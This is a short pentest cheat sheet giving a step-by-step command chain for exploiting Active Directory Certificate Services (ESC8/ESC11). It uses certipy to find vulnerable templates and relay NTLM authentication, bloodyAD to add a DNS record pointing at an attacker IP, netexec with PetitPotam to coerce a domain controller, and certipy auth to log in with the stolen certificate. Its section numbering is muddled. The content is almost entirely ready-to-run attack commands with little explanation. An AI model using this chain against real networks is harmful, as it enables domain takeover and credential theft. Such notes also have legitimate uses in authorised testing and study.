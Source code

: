 # ADCS ESC8/ESC11

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. NTLM Relay (Relaying Domain Controller account)
```
certipy relay -target 'https://<IP_ADDRESS>' -template 'DomainController'
```

## 2b. NTLM Relay (Relaying User account)
```
certipy relay -target 'https://<IP_ADDRESS>'
```

## Tip: If you get a 'permission denied' while trying to listen on port 445, you can use the command (on Linux): `echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start`

## 3. Coerce Authentication with other tool (Petitpotam, Coercer)
```
bloodyAD -u <username> -p <password> -d <domain> -k --host <CA_FQDN> add dnsRecord <dc-hostname>UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA <attacker-ip>
```

## 4. Certipy relays the authentication and requests a certificate
```
netexec smb <DC_FQDN>  -u <username> -p <password> -k -M coerce_plus -o LISTENER=<dc-hostname>UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=PetitPotam
```
## 3. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```
